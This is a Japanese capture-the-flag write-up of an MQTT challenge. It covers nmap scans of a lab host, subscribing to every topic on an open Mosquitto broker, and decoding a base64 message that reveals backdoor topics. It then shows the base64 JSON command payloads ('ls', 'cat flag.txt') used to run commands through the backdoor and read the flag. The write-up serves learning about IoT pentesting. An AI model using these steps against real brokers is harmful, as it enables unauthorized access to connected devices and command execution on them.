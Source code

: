 ### 🦋 Enum 
```
nmap -Pn -sS 10.10.25.229 -p- --min-rate=1000 -vv

Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE REASON
1883/tcp open  mqtt    syn-ack ttl 60
```
```
nmap -Pn -sVC 10.10.25.229 -p 1883 -vv -T4

PORT     STATE SERVICE                  REASON  VERSION
1883/tcp open  mosquitto version 2.0.14 syn-ack
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/publish/bytes/sent: 349
|     $SYS/broker/load/connections/5min: 0.51
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/messages/received/1min: 86.11
|     $SYS/broker/load/bytes/received/5min: 1912.58
|     $SYS/broker/load/publish/sent/5min: 6.68
|     livingroom/speaker: {"id":211551651046996595,"gain":41}
|     $SYS/broker/load/sockets/15min: 0.25
|     $SYS/broker/messages/stored: 36
|     $SYS/broker/load/messages/sent/15min: 18.52
|     $SYS/broker/messages/received: 269
|     storage/thermostat: {"id":3296708289509929431,"temperature":24.104994}
|     $SYS/broker/load/publish/sent/15min: 2.25
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/uptime: 176 seconds
|     patio/lights: {"id":15868680515623395794,"color":"BLUE","status":"ON"}
|     $SYS/broker/subscriptions/count: 3
|     $SYS/broker/load/messages/received/5min: 40.58
|     $SYS/broker/clients/active: 2
|     $SYS/broker/load/messages/sent/5min: 47.26
|     $SYS/broker/clients/total: 2
|     $SYS/broker/load/sockets/5min: 0.69
|     $SYS/broker/load/sockets/1min: 2.49
|     $SYS/broker/load/bytes/received/15min: 767.85
|     $SYS/broker/publish/messages/sent: 62
|     $SYS/broker/bytes/sent: 3686
|     $SYS/broker/load/connections/15min: 0.19
|     $SYS/broker/publish/bytes/received: 8994
|     $SYS/broker/load/connections/1min: 1.89
|     $SYS/broker/messages/sent: 330
|     $SYS/broker/load/messages/received/15min: 16.27
|     $SYS/broker/load/bytes/sent/15min: 155.79
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/bytes/received: 12702
|     $SYS/broker/clients/maximum: 2
|     $SYS/broker/retained messages/count: 38
|     $SYS/broker/store/messages/count: 36
|     $SYS/broker/load/publish/sent/1min: 31.07
|     $SYS/broker/load/messages/sent/1min: 117.18
|     $SYS/broker/store/messages/bytes: 271
|     $SYS/broker/load/bytes/sent/1min: 1594.43
|     $SYS/broker/load/bytes/sent/5min: 431.08
|_    $SYS/broker/load/bytes/received/1min: 4023.83

Nmap done: 1 IP address (1 host up) scanned in 16.03 seconds
```

```
curl 10.10.25.229:1883 -vv
*   Trying 10.10.25.229:1883...
* Connected to 10.10.25.229 (10.10.25.229) port 1883 (#0)
> GET / HTTP/1.1
> Host: 10.10.25.229:1883
> User-Agent: curl/7.88.1
> Accept: */*
> 
* Recv failure: 接続が相手からリセットされました
* Closing connection 0
curl: (56) Recv failure: 接続が相手からリセットされました
```

mosquitto version 2.0.14 とヒントから対象はMQTTサーバっぽい。

https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto

こちらの記事から、以下のクライアントで通信してみることにした。

https://github.com/bapowell/python-mqtt-client-shell

### 🦋 Flag

```
└─$ python MQTT_Client.py

Welcome to the MQTT client shell.
Type help or ? to list commands.
Pressing <Enter> on an empty line will repeat the last command.

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> logging off

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connection

Connection args: host=localhost, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> host 10.10.25.229

Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connect

***CONNECTED***
Subscriptions: 
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> subscribe #
...msg_id=1, result=0 (No error.)

***CONNECTED***
Subscriptions: (topic=#,qos=0)
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
>                               on_message(): message received: Topic: patio/lights, QoS: 0, Payload Length: 58
                                                              Payload (str): b'{"id":16203475553139602730,"color":"WHITE","status":"OFF"}'
                                                              Payload (hex): b'7b226964223a31363230333437353535333133393630323733302c22636f6c6f72223a225748495445222c22737461747573223a224f4646227d'
                              on_message(): message received: Topic: frontdeck/camera, QoS: 0, Payload Length: 97
                                                              Payload (str): b'{"id":12711243125979531289,"yaxis":-30.734741,"xaxis":8.347092,"zoom":3.7394342,"movement":false}'

```
ホスト設定後、チュートリアルとおりのコマンドでそれっぽいデータ受信を確認。

しばらくしてると、Topic: yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config　で始まるB64されたおかしいMSGを受信するのでPayloadをデコードする。

![image](https://user-images.githubusercontent.com/6504854/236677887-22e8a30d-698b-49a2-a686-cf07b1633e53.png)

![image](https://user-images.githubusercontent.com/6504854/236678248-ef0391ea-3f28-4215-82f6-ed5868d47632.png)

この電文を元にopicとPayloadの組み合わせを考えいれてみた。
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```
```
publish pub_topic "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"
publish pub_topic "HELP"
publish pub_topic "CMD"
publish pub_topic "SYS"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "HELP"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "CMD"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "SYS"

publish sub_topic "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
publish sub_topic "HELP"
publish sub_topic "CMD"
publish sub_topic "SYS"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "HELP"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "CMD"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "SYS"
```
![image](https://user-images.githubusercontent.com/6504854/236678975-ad9603e0-3a2f-42e1-8c33-672bd1134fa6.png)
![image](https://user-images.githubusercontent.com/6504854/236679221-65f00435-d344-4fef-a0da-3a11ea94bdd1.png)

どうも下３こ反応しているように見受けられる。デコードする。argってなに？（なんらかの引数でしょうね、はい）。
また以下PayloadをB64していれてみる。

```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP", "arg": ""}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS", "arg": ""}
```

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"} の結果
![image](https://user-images.githubusercontent.com/6504854/236681441-19e41a13-e671-403f-ae9c-a8b8dc82c08b.png)

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"} の結果
![image](https://user-images.githubusercontent.com/6504854/236682086-4a630e7a-234e-4fd5-93b9-cf4ab34626d3.png)


うーん。B64して遊んでたら休みが終わった。。。MQTTの仕様はなんもわかってない。

### 🦋 Omake

https://securitycafe.ro/2022/04/08/iot-pentesting-101-how-to-hack-mqtt-the-standard-for-iot-messaging/

こちらの図がわかりやすい。
今回の場合、MQTTBloker（サーバ）がなぜかバックドアIDとコマンドを配信してくれてた？


